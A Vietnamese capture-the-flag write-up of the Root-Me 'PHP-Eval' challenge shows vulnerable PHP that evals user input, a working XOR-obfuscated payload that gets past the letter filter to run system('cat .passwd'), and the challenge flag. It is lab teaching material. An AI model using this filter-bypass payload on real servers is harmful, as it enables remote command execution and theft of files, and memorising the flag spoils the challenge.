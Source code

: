 # PHP-EVAL

## Mô tả
Link: 
>https://www.root-me.org/en/Challenges/Web-Server/PHP-Eval

Category: Web, 40 points

Giao diện chính

![image](https://user-images.githubusercontent.com/72856776/115710947-258b2100-a39d-11eb-98a3-d4ea0a9adb1f.png)
## Hint
`Note : the flag is in .passwd file.`
## Source Code
```php
<html>
<head>
</head>
<body>
 
<h4> PHP Calc </h4>
 
<form action='index.php' method='post'>
    <input type='text' id='input' name='input' />
    <input type='submit' />
<?php
 
if (isset($_POST['input'])) {
    if(!preg_match('/[a-zA-Z`]/', $_POST['input'])){
        print '<fieldset><legend>Result</legend>';
        eval('print '.$_POST['input'].";");
        print '</fieldset>';
    }
    else
        echo "<p>Dangerous code detected</p>";
}
?>
</form>
</body>
</html>
```
## Phương pháp
Sau khi đọc Hint mình nghĩ flag sẽ nằm trong file .passwd vì vậy ta cần phải "cat" được nó, bằng cách sử dụng hàm system. Nhưng nhìn vào source ta sẽ thấy, cần phải bypass được hàm preg_match để thực hiên được hàm system thông qua hàm eval. Để thực hiện được điều đó ta cần viết được code có thể bypass các filter trên `[a-zA-Z]`.

Sau khi tham khảo một số nguồn thì mình tìm được 1 link viết khá đầy đủ về ý tưởng bypass filter này
>https://securityonline.info/bypass-waf-php-webshell-without-numbers-letters/

Trong này sẽ nêu ra 2 phương pháp. Nhưng sau khi đọc và được hướng dẫn thì mình quyết định sử dụng phương pháp sử dụng hàm XOR trong PHP. Về cơ bản thì hàm này sẽ XOR 2 kí tự với nhau để trả về 1 kí tự khác. Vì vậy ta có thể sử dụng chữ số hoặc kí tự đặc biệt để XOR ra những từ ta cần dùng trong viết code (cũng vì thế mà code sẽ nhìn khá cục súc).

Đây là code mình sử dụng để bypass chall này
```php
<?php
$_= ("3934%@"^"@@@@@-");      //$_= system;
$__= ("@@4"^"#!@");           //$__= cat;
$___= (".!337$"^"^@@@@@");    //$___= passwd;
$____= ("$__ .$___");         //$____= cat .passwd;
$_($____);                    //system(cat .passwd);
?>
```
Sau khi submit, server sẽ trả về cho ta kết quả

![image](https://user-images.githubusercontent.com/72856776/115714080-f080cd80-a3a0-11eb-88e7-edc35123cae6.png)

Mình cũng không rõ cái system nó ở đâu ra nên đã mặc kệ :v 
## Flag
>M!xIng_PHP_w1th_3v4l_L0L
